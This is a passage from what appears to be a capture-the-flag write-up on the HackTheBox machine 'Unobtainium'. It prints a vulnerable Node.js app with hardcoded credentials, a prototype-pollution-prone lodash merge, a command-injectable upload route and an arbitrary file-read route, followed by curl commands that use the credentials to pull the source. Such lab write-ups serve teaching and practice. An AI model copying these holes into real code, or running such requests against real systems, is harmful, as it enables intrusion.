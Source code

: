 <span class="go">{"ok":true,"content":"var root = require(\"google-cloudstorage-commands\");\nconst express = require('express');\nconst { exec } = require(\"child_process\");     \nconst bodyParser = require('body-parser');     \nconst _ = require('lodash');                                                                  \nconst app = express();\nvar fs = require('fs');\n                                                                                              \nconst users = [                                                                               \n  {name: 'felamos', password: 'Winter2021'},\n  {name: 'admin', password: Math.random().toString(32), canDelete: true, canUpload: true},      \n];\n\nlet messages = [];                             \nlet lastId = 1;                                \n                                                                                              \nfunction findUser(auth) {                                                                     \n  return users.find((u) =&gt;                                                                    \n    u.name === auth.name &amp;&amp;                                                                   \n    u.password === auth.password);                                                            \n}                                    \n                                               \napp.use(bodyParser.json());                                                                   \n                                               \napp.get('/', (req, res) =&gt; {                   \n  res.send(messages);                                                                         \n});                                                                                           \n                                                                                              \napp.put('/', (req, res) =&gt; {   \n  const user = findUser(req.body.auth || {});                                                 \n                                               \n  if (!user) {                                 \n    res.status(403).send({ok: false, error: 'Access denied'});                                \n    return;\n  }\n\n  const message = {\n    icon: '__',\n  };\n\n  _.merge(message, req.body.message, {\n    id: lastId++,\n    timestamp: Date.now(),\n    userName: user.name,\n  });\n\n  messages.push(message);\n  res.send({ok: true});\n});\n\napp.delete('/', (req, res) =&gt; {\n  const user = findUser(req.body.auth || {});\n\n  if (!user || !user.canDelete) {\n    res.status(403).send({ok: false, error: 'Access denied'});\n    return;\n  }\n\n  messages = messages.filter((m) =&gt; m.id !== req.body.messageId);\n  res.send({ok: true});\n});\napp.post('/upload', (req, res) =&gt; {\n  const user = findUser(req.body.auth || {});\n  if (!user || !user.canUpload) {\n    res.status(403).send({ok: false, error: 'Access denied'});\n    return;\n  }\n\n\n  filename = req.body.filename;\n  root.upload(\"./\",filename, true);\n  res.send({ok: true, Uploaded_File: filename});\n});\n\napp.post('/todo', (req, res) =&gt; {\n\tconst user = findUser(req.body.auth || {});\n\tif (!user) {\n\t\tres.status(403).send({ok: false, error: 'Access denied'});\n\t\treturn;\n\t}\n\n\tfilename = req.body.filename;\n        testFolder = \"/usr/src/app\";\n        fs.readdirSync(testFolder).forEach(file =&gt; {\n                if (file.indexOf(filename) &gt; -1) {\n                        var buffer = fs.readFileSync(filename).toString();\n                        res.send({ok: true, content: buffer});\n                }\n        });\n});\n\napp.listen(3000);\nconsole.log('Listening on port 3000...');\n"}
</span></code></pre></div></div>

<p>The formatting is a mess, but I’ll use <code class="language-plaintext highlighter-rouge">jq</code> to pull the string in <code class="language-plaintext highlighter-rouge">content</code> and print it raw (<code class="language-plaintext highlighter-rouge">-r</code>):</p>

<div class="language-console wrap highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">oxdf@parrot$</span><span class="w"> </span>curl <span class="nt">-s</span> http://unobtainium.htb:31337/todo <span class="nt">-H</span> <span class="s2">"Content-Type: application/json"</span> <span class="nt">-d</span> <span class="s1">'{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}'</span> | jq <span class="nt">-r</span> <span class="s1">'.content'</span>
<span class="go">var root = require("google-cloudstorage-commands");
const express = require('express');                              
const { exec } = require("child_process");     
const bodyParser = require('body-parser')
...[snip]...
</span><span class="gp">oxdf@parrot$</span><span class="w"> </span>curl <span class="nt">-s</span> http://unobtainium.htb:31337/todo <span class="nt">-H</span> <span class="s2">"Content-Type: application/json"</span> <span class="nt">-d</span> <span class="s1">'{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}'</span> | jq <span class="nt">-r</span> <span class="s1">'.content'</span> <span class="o">&gt;</span> index.js
</code></pre></div></div>
